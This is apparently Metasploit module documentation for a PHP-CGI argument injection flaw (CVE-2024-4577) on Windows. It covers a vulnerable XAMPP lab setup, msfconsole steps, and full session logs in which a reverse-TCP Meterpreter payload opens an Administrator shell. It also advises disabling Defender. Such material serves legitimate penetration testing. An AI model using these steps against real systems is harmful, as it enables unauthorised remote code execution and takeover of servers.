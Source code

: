 ## Vulnerable Application
This module exploits a PHP CGI argument injection vulnerability affecting PHP in certain configurations
on a Windows target. A vulnerable configuration is locale dependant (such as Chinese or Japanese), such that
the Unicode best-fit conversion scheme will unexpectedly convert a soft hyphen (0xAD) into a dash (0x2D)
character. Additionally a target web server must be configured to run PHP under CGI mode, or directly expose
the PHP binary. This issue has been fixed in PHP 8.3.8 (for the 8.3.x branch), 8.2.20 (for the 8.2.x branch),
and 8.1.29 (for the 8.1.x branch). PHP 8.0.x and below are end of life and have note received patches.

XAMPP is vulnerable in a default configuration, and we can target the /php-cgi/php-cgi.exe endpoint. To target
an explicit .php endpoint (e.g. /index.php), the server must be configured to run PHP scripts in CGI mode.

## Testing
* Configure a Windows system with a system locale for Japanese (code page 932).
  * Navigate to `Control Panel` -> `Region` -> `Administrative` -> `Change system locale...`
  * Select `Japanese (Japan)` and click `OK`.
  * Click `Restart now`.
  * After restart, login and open a command prompt. Verify the code page via the command `chcp`. You should see this:
```
Microsoft Windows [Version 10.0.20348.1607]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>chcp
Active code page: 932
```
* Download a known vulnerable version of XAMPP `8.2.12 / PHP 8.2.12`
([direct link here](https://sourceforge.net/projects/xampp/files/XAMPP%20Windows/8.2.12/xampp-windows-x64-8.2.12-0-VS16-installer.exe)).
* Install XAMPP and run the XAMPP Console. Click the `Start` action to start the Apache web server.
* Verify you can browse to http://127.0.0.1:80/. You should see the "Welcome to XAMPP for Windows" page.

No further configuration is needed to exploit the target when targeting the exploits default `TARGETURI` endpoint
`/php-cgi/php-cgi.exe'`. This is because XAMPP uses the Apache `ScriptAlias` directive to expose the `php-cgi.exe`
binary directly. If you want to target an `.php` endpoint (for example `/index.php`), the target Apache serer must
have this enabled in its configuration (`c:\xampp\apache\conf\extra\httpd-xampp.conf`):

```
 #
 # PHP-CGI setup
 #
 <FilesMatch "\.php$">
     SetHandler application/x-httpd-php-cgi
 </FilesMatch>
 <IfModule actions_module>
     Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
 </IfModule>
```

If you modify the Apache config, dont forget to restart the Apache server to pick up the changes.

## Verification Steps
Note: On Windows, disable Defender if you are using the command payloads. This is not needed for the PHP payloads
as they execute in-memory.

1. Start msfconsole
2. `use exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set payload php/meterpreter/reverse_tcp`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Windows PHP

```
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set target 0
target => 0
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set LHOST eth0
LHOST => eth0
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > show options

Module options (exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.50         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                    yes       The target port (TCP)
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /php-cgi/php-cgi.exe  yes       The path to a PHP CGI endpoint
   VHOST                            no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows PHP



View the full module info with the info, or info -d command.

msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
[*] Sending stage (39927 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:49761) at 2024-06-10 17:32:52 +0100

meterpreter > getuid
Server username: Administrator
meterpreter > pwd
C:\xampp\php
meterpreter > sysinfo
Computer    : WIN-V28QNSO2H05
OS          : Windows NT WIN-V28QNSO2H05 10.0 build 20348 (Windows Server 2022) AMD64
Meterpreter : php/windows
meterpreter > 
```

### Windows Command

```
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set target 1
target => 1
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > show options

Module options (exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.50         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                    yes       The target port (TCP)
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /php-cgi/php-cgi.exe  yes       The path to a PHP CGI endpoint
   VHOST                            no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ZyJgsNjYvpTX     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > check
[+] 192.168.86.50:80 - The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
msf exploit(windows/http/php_cgi_arg_injection_rce_cve_2024_4577) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
[*] Sending stage (201798 bytes) to 192.168.86.50
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:49780) at 2024-06-10 17:34:45 +0100

meterpreter > getuid
Server username: WIN-V28QNSO2H05\Administrator
meterpreter > pwd
C:\xampp\php
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : ja_JP
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```
